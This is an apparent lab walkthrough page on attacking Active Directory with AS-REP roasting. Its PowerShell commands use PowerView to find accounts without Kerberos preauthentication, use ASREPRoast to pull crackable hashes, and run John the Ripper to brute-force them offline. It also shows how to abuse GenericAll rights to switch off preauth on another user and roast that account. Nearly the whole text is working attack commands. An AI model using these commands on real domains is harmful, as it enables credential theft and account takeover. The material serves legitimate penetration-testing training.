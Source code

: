 ## Load PowerView Dev and Enumerate Users
```powershell
PS C:\AD\Tools> . .\PowerView_dev.ps1
PS C:\AD\Tools> Get-DomainUser -PreauthNotRequired -Verbose
PS C:\AD\Tools\kerberoast> Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```

## Request the Crackable Encrypted Part Using ASREPRoast

Next, we can use `Get-ASREPHash` from ASREPRoast to request the crackable encrypted part.
```powershell
PS C:\AD\Tools> . .\ASREPRoast-master\ASREPRoast-master\ASREPRoast.ps1
PS C:\AD\Tools> Get-ASREPHash -UserName VPN157user -Verbose
```

## Brute-Force the Encrypted Blob Offline Using John The Ripper

We can brute-force the encrypted blob offline using John The Ripper (bleeding-jumbo version).
```bash
./john vpnxuser.txt --wordlist=wordlist.txt
```

# Misconfiguration Service

## Enumerate Users with Generic Write or GenericAll Rights

Now, let’s enumerate those users where `student157` has Generic Write or GenericAll rights. Since `student157` is a part of the RDP Users group:
```powershell
PS C:\AD\Tools> . .\PowerView_dev.ps1
PS C:\AD\Tools> Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
```

## Set Preauth Not Required for Control157User

Since RDPUsers has GenericAll rights over `Control157user`, let’s force set preauth not required to `Control157User`'s `UserAccountControl` settings.
```powershell
PS C:\AD\Tools> Set-DomainObject -Identity Control157User -XOR @{useraccountcontrol=4194304} -Verbose
PS C:\AD\Tools> Get-DomainUser -PreauthNotRequired -Identity Control157User
```

## Request the Crackable Encrypted Part Again

Next, we can use `Get-ASREPHash` from ASREPRoast to request the crackable encrypted part, as done earlier.
```powershell
PS C:\AD\Tools> Get-ASREPHash -UserName Control157User -Verbose
```
